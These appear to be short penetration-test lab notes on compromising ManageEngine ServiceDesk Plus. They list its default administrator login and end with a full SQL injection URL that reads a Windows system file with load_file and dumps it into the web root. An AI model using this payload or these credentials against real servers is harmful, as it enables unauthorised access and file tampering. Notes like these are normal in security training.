

The default username\password in ServiceDesk Plus is administrator\administrator
used tamper to get session cookie
tried sql map (no success)
then used metasploit below.....
http://10.11.1.145:8080/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=6%29union%20select%201,2,3,4,5,6,7,8,load_file%28%22c:\\Windows\\system32\\drivers\\etc\\hosts%22%29,10,11,12,13,14,15,16,17,18,19,1%20into%20dumpfile%20%27C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\boot.ini%27/*
